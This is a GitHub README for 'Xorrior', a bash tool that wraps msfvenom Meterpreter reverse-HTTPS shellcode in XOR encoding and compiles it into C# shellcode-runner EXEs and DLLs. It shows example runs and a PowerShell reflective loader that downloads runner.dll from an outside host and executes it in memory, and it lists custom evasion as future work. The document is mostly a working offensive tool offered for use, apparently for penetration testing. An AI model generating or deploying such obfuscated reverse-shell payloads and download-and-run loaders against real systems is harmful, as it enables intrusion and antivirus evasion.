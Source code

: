 # Xorrior

<img width="744" height="248" alt="image" src="https://github.com/user-attachments/assets/ee2c2cb2-c855-42aa-882c-b22931e65db2" />

Automating the Conversion of XOR-Encoded Shellcode into Ready-to-Use EXE or DLL

This tool was written in bash to avoid the routine of:

1. Creating shellcode with msfvenom
2. Copying that shellcode into an XOR encoder
3. Copying the output out of the XOR encoder into a C# shellcode runner.

The tool does all of the above in a single bash script and produces file outputs in
 
 * Executable (EXE)
 
 * Dynamic Link Library (DLL)

Note: The tool requires that x86_64-w64-mingw32-g++ is installed.
```r
sudo apt update

sudo apt install g++-mingw-w64-x86-64
```


#### Example Usage: Generating an EXE
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]: 
Output file type: exe or library (dll)? [exe]: 
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 754 bytes
Final size of csharp file: 3863 bytes
[*] Building EXE shellcode runner...
[*] Compiling with mcs...

[+] Success! Generated runner.exe

```


#### Example Usage: Generating a DLL
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]:  
Output file type: exe or library (dll)? [exe]: library
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 806 bytes
Final size of csharp file: 4127 bytes
[*] Building DLL shellcode loader...
[*] Compiling with mcs...
runner_gen.cs(29,17): warning CS0472: The result of comparing value type `System.IntPtr' with null is always `false'
runner_gen.cs(29,30): warning CS0162: Unreachable code detected
Compilation succeeded - 2 warning(s)

[+] Success! Generated runner.dll
[*] DLL Info: Namespace = ReflectiveLoadDll, Class = Class1, Method = runner

```

Sample reflective loader to use with dll
```PowerShell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/runner.dll') 
$assem = [System.Reflection.Assembly]::Load($data) 
$class = $assem.GetType("ReflectiveLoadDll.Class1") 
$method = $class.GetMethod("runner") 
$method.Invoke(0, $null)
```

####  To-Dos
 
 * Build Modularity into the tool to :
     *  accept different encryption and encoding types
     *  accept different C, C# templates for flexibility e.g. including custom evasion etc.
 
 

